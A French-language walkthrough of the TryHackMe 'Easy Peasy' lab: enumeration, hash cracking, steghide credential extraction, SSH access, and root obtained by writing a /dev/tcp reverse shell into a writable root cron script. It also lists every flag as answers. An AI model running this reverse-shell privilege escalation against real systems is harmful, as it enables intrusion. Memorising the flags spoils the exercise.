




# Easy Peasy #

## Task 1 Enumeration through Nmap ##

```bash
tim@kali:~/Bureau/tryhackme/write-up$ sudo sh -c "echo '10.10.5.155 easypeasy.thm' >> /etc/hosts"

tim@kali:~/Bureau/tryhackme/write-up$ sudo nmap -A easypeasy.thm -p-
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-03 21:57 CEST
Nmap scan report for easypeasy.thm (10.10.5.155)
Host is up (0.034s latency).
Not shown: 65532 closed ports
PORT      STATE SERVICE VERSION
80/tcp    open  http    nginx 1.16.1
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: nginx/1.16.1
|_http-title: Welcome to nginx!
6498/tcp  open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 30:4a:2b:22:ac:d9:56:09:f2:da:12:20:57:f4:6c:d4 (RSA)
|   256 bf:86:c9:c7:b7:ef:8c:8b:b9:94:ae:01:88:c0:85:4d (ECDSA)
|_  256 a1:72:ef:6c:81:29:13:ef:5a:6c:24:03:4c:fe:3d:0b (ED25519)
65524/tcp open  http    Apache httpd 2.4.43 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Apache/2.4.43 (Ubuntu)
|_http-title: Apache2 Debian Default Page: It works
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.91%E=4%D=8/3%OT=80%CT=1%CU=41205%PV=Y%DS=2%DC=T%G=Y%TM=61099FD7
OS:%P=x86_64-pc-linux-gnu)SEQ(SP=107%GCD=1%ISR=10A%TI=Z%CI=Z%II=I%TS=A)OPS(
OS:O1=M506ST11NW6%O2=M506ST11NW6%O3=M506NNT11NW6%O4=M506ST11NW6%O5=M506ST11
OS:NW6%O6=M506ST11)WIN(W1=F4B3%W2=F4B3%W3=F4B3%W4=F4B3%W5=F4B3%W6=F4B3)ECN(
OS:R=Y%DF=Y%T=40%W=F507%O=M506NNSNW6%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS
OS:%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=
OS:Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=
OS:R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T
OS:=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=
OS:S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 199/tcp)
HOP RTT      ADDRESS
1   34.33 ms 10.9.0.1
2   34.97 ms easypeasy.thm (10.10.5.155)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 60.90 seconds

```

**How many ports are open?**

Avec le scan de Nmap on remarque 3 ports ouverts.  
Le port 80, 6498 et 65524.   

Réponse : 3   

**What is the version of nginx?**

Sur le port 80 on voit que la version de nginx est 1.16.1    

**What is running on the highest port?**

Sur le port le plus haut 65524, c'est l'application Apache qui fonctionne.    

## Task 2 Compromising the machine ##

**Using GoBuster, find flag 1.**

```bash
tim@kali:~/Bureau/tryhackme/write-up$ gobuster dir -u http://easypeasy.thm:80 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -q
/hidden               (Status: 301) [Size: 169] [--> http://easypeasy.thm/hidden/]
```

On trouve un lien caché sous le nom de \/hidden     

```bash
tim@kali:~/Bureau/tryhackme/write-up$ curl http://easypeasy.thm:80/hidden/
<!DOCTYPE html>
<html>
<head>
<title>Welcome to ctf!</title>
<style>
    body {
	background-image: url("https://cdn.pixabay.com/photo/2016/12/24/11/48/lost-places-1928727_960_720.jpg");
	background-repeat: no-repeat;
	background-size: cover;
        width: 35em;
        margin: 0 auto;
        font-family: Tahoma, Verdana, Arial, sans-serif;
    }
</style>
</head>
<body>
</body>
</html>
```

Dans hidden il y a qu'une seule image.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ gobuster dir -u http://easypeasy.thm:80/hidden/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -q
/whatever             (Status: 301) [Size: 169] [--> http://easypeasy.thm/hidden/whatever/]
```

On trouve un autre chemin caché.  

Quand on va sur le chemin on trouve que une page blanche.    

```bash
tim@kali:~/Bureau/tryhackme/write-up$ curl http://easypeasy.thm:80/hidden/whatever/
<!DOCTYPE html>
<html>
<head>
<title>dead end</title>
<style>
    body {
	background-image: url("https://cdn.pixabay.com/photo/2015/05/18/23/53/norway-772991_960_720.jpg");
	background-repeat: no-repeat;
	background-size: cover;
        width: 35em;
        margin: 0 auto;
        font-family: Tahoma, Verdana, Arial, sans-serif;
    }
</style>
</head>
<body>
<center>
<p hidden>ZmxhZ3tmMXJzN19mbDRnfQ==</p>
</center>
</body>
</html>
```

Dans le code source on trouve un message en base64.    

```bash
im@kali:~/Bureau/tryhackme/write-up$ echo "ZmxhZ3tmMXJzN19mbDRnfQ==" | base64 -d
flag{f1rs7_fl4g}
```

On décode le flag.
La réponse est : flag{f1rs7_fl4g}   

**Further enumerate the machine, what is flag 2?**

```bash
tim@kali:~/Bureau/tryhackme/write-up$ gobuster dir -u http://easypeasy.thm:65524 -w /usr/share/dirb/wordlists/common.txt -q
/.hta                 (Status: 403) [Size: 281]
/.htaccess            (Status: 403) [Size: 281]
/.htpasswd            (Status: 403) [Size: 281]
/index.html           (Status: 200) [Size: 10818]
/robots.txt           (Status: 200) [Size: 153]  
/server-status        (Status: 403) [Size: 281]  
```

Ici on voit le fichier robots.txt

```bash
tim@kali:~/Bureau/tryhackme/write-up$ curl  http://easypeasy.thm:65524/robots.txt
User-Agent:*
Disallow:/
Robots Not Allowed
User-Agent:a18672860d0510e5ab6699730763b250
Allow:/

What is the hidden directory?
This Flag Can Enter But Only This Flag No More Exceptions

tim@kali:~/Bureau/tryhackme/write-up$ hash-identifier a18672860d0510e5ab6699730763b250 | head -20
   #########################################################################
   #     __  __                     __           ______    _____           #
   #    /\ \/\ \                   /\ \         /\__  _\  /\  _ `\         #
   #    \ \ \_\ \     __      ____ \ \ \___     \/_/\ \/  \ \ \/\ \        #
   #     \ \  _  \  /'__`\   / ,__\ \ \  _ `\      \ \ \   \ \ \ \ \       #
   #      \ \ \ \ \/\ \_\ \_/\__, `\ \ \ \ \ \      \_\ \__ \ \ \_\ \      #
   #       \ \_\ \_\ \___ \_\/\____/  \ \_\ \_\     /\_____\ \ \____/      #
   #        \/_/\/_/\/__/\/_/\/___/    \/_/\/_/     \/_____/  \/___/  v1.2 #
   #                                                             By Zion3R #
   #                                                    www.Blackploit.com #
   #                                                   Root@Blackploit.com #
   #########################################################################
--------------------------------------------------

Possible Hashs:
[+] MD5
[+] Domain Cached Credentials - MD4(MD4(($pass)).(strtolower($username)))

Least Possible Hashs:
[+] RAdmin v2.x
```

Dans le fichier robots.txt on voit une chaîne codée.   
Hash identifier nous que c'est du MD5.   



On déchiffre la chaîne et on trouve le flag.  
La réponse est : flag{1m_s3c0nd_fl4g}  

**Crack the hash with easypeasy.txt, What is the flag 3?**

```bash
tim@kali:~/Bureau/tryhackme/write-up$ curl  -s http://easypeasy.thm:65524/ | grep flag
          <a href="#flag">hi</a>
                           Fl4g 3 : flag{9fdafbd64c47471a8f54cd3fc64cd312}
```

Dans la page d'accueil par défaut d'apache on trouve dans le code source un flag.   
La réponse est : flag{9fdafbd64c47471a8f54cd3fc64cd312}   

**What is the hidden directory?**

```bash
===============================================================
tim@kali:~/Bureau/tryhackme/write-up$ curl  -s http://easypeasy.thm:65524/ | grep hidden
	<p hidden>its encoded with ba....:ObsJmP173N2X6dOrAgEAL0Vu</p>
```

On trouve une autre chaîne : ObsJmP173N2X6dOrAgEAL0Vu



C'est base62 on décode la chaîne, on utilise le site Cyberchef.   

On trouve un chemin : \/n0th1ng3ls3m4tt3r   

Sur la page avec le nouveau chemin le site affiche une image.    

```bash
tim@kali:~/Bureau/tryhackme/write-up$ curl http://easypeasy.thm:65524/n0th1ng3ls3m4tt3r/
<html>
<head>
<title>random title</title>
<style>
	body {
	background-image: url("https://cdn.pixabay.com/photo/2018/01/26/21/20/matrix-3109795_960_720.jpg");
	background-color:black;


	}
</style>
</head>
<body>
<center>

<p>940d71e8655ac41efb5f8ab850668505b86dd64186a66e57d1483e7f5fe6fd81</p>
</center>
</body>
</html>

tim@kali:~/Bureau/tryhackme/write-up$ hash-identifier 940d71e8655ac41efb5f8ab850668505b86dd64186a66e57d1483e7f5fe6fd81 | head -20
   #########################################################################
   #     __  __                     __           ______    _____           #
   #    /\ \/\ \                   /\ \         /\__  _\  /\  _ `\         #
   #    \ \ \_\ \     __      ____ \ \ \___     \/_/\ \/  \ \ \/\ \        #
   #     \ \  _  \  /'__`\   / ,__\ \ \  _ `\      \ \ \   \ \ \ \ \       #
   #      \ \ \ \ \/\ \_\ \_/\__, `\ \ \ \ \ \      \_\ \__ \ \ \_\ \      #
   #       \ \_\ \_\ \___ \_\/\____/  \ \_\ \_\     /\_____\ \ \____/      #
   #        \/_/\/_/\/__/\/_/\/___/    \/_/\/_/     \/_____/  \/___/  v1.2 #
   #                                                             By Zion3R #
   #                                                    www.Blackploit.com #
   #                                                   Root@Blackploit.com #
   #########################################################################
--------------------------------------------------

Possible Hashs:
[+] SHA-256
[+] Haval-256

Least Possible Hashs:
[+] GOST R 34.11-94

```



On trouve un nouveau hash.  
On identifie que c'est du SHA-256
On le déchiffre sur le site [md5hashing](https://md5hashing.net/)

On trouve un password : mypasswordforthatjob  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ wget http://easypeasy.thm:65524/n0th1ng3ls3m4tt3r/binarycodepixabay.jpg -nv
2021-08-03 23:27:59 URL:http://easypeasy.thm:65524/n0th1ng3ls3m4tt3r/binarycodepixabay.jpg [90158/90158] -> "binarycodepixabay.jpg" [1]

tim@kali:~/Bureau/tryhackme/write-up$ steghide extract -sf binarycodepixabay.jpg 
Entrez la passphrase: 
�criture des donn�es extraites dans "secrettext.txt".

tim@kali:~/Bureau/tryhackme/write-up$ cat secrettext.txt 
username:boring
password:
01101001 01100011 01101111 01101110 01110iconvertedmypasswordtobinary
```


On télécharge l'image.
On décode le fichier caché dans l'image avec steghide.   
Dans fichier le fichier on voit les identifiants.    
- Utilisateur : boring
- Le mot de passe est encodé en binaire.   
Le mot de passe est : iconvertedmypasswordtobinary   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ ssh boring@easypeasy.thm -p 6498
The authenticity of host '[easypeasy.thm]:6498 ([10.10.5.155]:6498)' can't be established.
ECDSA key fingerprint is SHA256:hnBqxfTM/MVZzdifMyu9Ww1bCVbnzSpnrdtDQN6zSek.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[easypeasy.thm]:6498,[10.10.5.155]:6498' (ECDSA) to the list of known hosts.
*************************************************************************
**        This connection are monitored by government offical          **
**            Please disconnect if you are not authorized	       **
** A lawsuit will be filed against you if the law is not followed      **
*************************************************************************
boring@easypeasy.thm's password: 
You Have 1 Minute Before AC-130 Starts Firing
XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
!!!!!!!!!!!!!!!!!!I WARN YOU !!!!!!!!!!!!!!!!!!!!
You Have 1 Minute Before AC-130 Starts Firing
XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
!!!!!!!!!!!!!!!!!!I WARN YOU !!!!!!!!!!!!!!!!!!!!
boring@kral4-PC:~$ cat user.txt
User Flag But It Seems Wrong Like It`s Rotated Or Something
synt{a0jvgf33zfa0ez4y}

```



On se connect sur le SSH avec notre mot passe et le nom d'utilisateur.  
On regarde dans le fichier user.txt.  
Le message est encodé en ROT13 on le décode.   
Le flag est : flag{n0wits33msn0rm4l}   

**What is the root flag?**

```bash
boring@kral4-PC:~$ cat /etc/crontab 
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
* *    * * *   root    cd /var/www/ && sudo bash .mysecretcronjob.sh

boring@kral4-PC:~$ ls -al  /var/www/.mysecretcronjob.sh 
-rwxr-xr-x 1 boring boring 33 Jun 14  2020 /var/www/.mysecretcronjob.sh

boring@kral4-PC:~$ echo "/bin/bash -l > /dev/tcp/10.9.228.66/1234 0<&1 2>&1"  >  /var/www/.mysecretcronjob.sh 
```

Dans le fichier crontab on remarque qu'il exécute un script avec les droits root.   
On remarque que l'on peut écrire dans le fichier.   
On lui inclut un reverse shell.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ netcat -lvnp 1234
listening on [any] 1234 ...
connect to [10.9.228.66] from (UNKNOWN) [10.10.5.155] 49368
mesg: ttyname failed: Inappropriate ioctl for device
id
uid=0(root) gid=0(root) groups=0(root)
cd /root 
ls -al
total 40
drwx------  5 root root 4096 Jun 15  2020 .
drwxr-xr-x 23 root root 4096 Jun 15  2020 ..
-rw-------  1 root root  883 Jun 15  2020 .bash_history
-rw-r--r--  1 root root 3136 Jun 15  2020 .bashrc
drwx------  2 root root 4096 Jun 13  2020 .cache
drwx------  3 root root 4096 Jun 13  2020 .gnupg
drwxr-xr-x  3 root root 4096 Jun 13  2020 .local
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-r--r--  1 root root   39 Jun 15  2020 .root.txt
-rw-r--r--  1 root root   66 Jun 14  2020 .selected_editor
cat .root.txt
flag{63a9f0ea7bb98050796b649e85481845}
```

On écoute le port 1234 pour établir une connexion avec le reverse shell.  
On obtient un shell avec les droits root.   
Dans le répertoire root on trouve le flag dans le fichier .root.txt    

La réponse est : flag{63a9f0ea7bb98050796b649e85481845}    